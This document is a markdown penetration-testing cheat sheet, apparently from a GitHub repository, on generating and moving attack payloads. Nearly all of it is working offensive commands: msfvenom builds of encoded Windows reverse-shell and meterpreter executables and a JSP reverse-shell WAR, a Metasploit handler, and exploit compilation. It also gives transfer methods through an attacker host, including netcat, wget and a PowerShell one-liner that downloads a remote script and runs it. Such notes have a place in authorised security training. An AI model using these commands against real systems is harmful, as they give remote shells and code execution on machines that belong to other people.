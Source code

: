 # Using and Transfering Vulnerabilities

## === MSVenom ===

### [MSFVenom Cheatsheet](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)
(Below are some of my most used examples)
```bash
# windows encoded reverse tcp shell
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=1337 -e shikata_ga_nai -i 3 -f exe > shell.exe
# windows encoded meterpreter reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1337 -e shikata_ga_nai -i 3 -f exe > encoded.exe
# war file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f war > shell.war
# metasploit handler
msfconsole
use exploit/multi/handler
set lhost 192.168.1.1
set lport 1337
run
```

### B0F
```bash
# compiling as exe for meterpreter reverse tcp shell
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1337 -e x86/shikata_ga_nai -f exe -o exploit.exe
```

## === Compiling Exploits ===

### C Code
```bash
# compiling c
gcc exploit.c -o exploit
# including pthread
gcc -pthread exploit.c -o exploit
# specific architecture (gcc-multilib)
sudo apt-get install gcc-multilib
gcc -m32 exploit.c -o exploit
gcc -m64 exploit.c -o exploit
# compiling to exe for different architecture
sudo apt-get install mingw-64
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

## === Transfering Vulnerabilities ===

### Simple HTTP Server
(Very useful, suggest making an alias for it!)
```bash
python -m SimpleHTTPServer
wget https://192.168.1.1:8000/x -O /dev/shm/x
chmod 775 x
```

### Netcat Transfer
```bash
nc -nvlp 8080 > /dev/shm/x
nc 10.10.10.1 8080 < ./x
```

### Powershell
```bash
# execute remote program
powershell iex(new-object net.webclient).downloadString('http://192.168.1.1:8000/file.ps1')
# download remote file
powersehll invoke-webrequest -uri "http://192.168.1.1/nc.exe" -outfile "nc.exe"
```

### Samba Server
```bash
sudo smbserver.py share .
copy \\192.168.1.1\share\file.txt file.txt
```

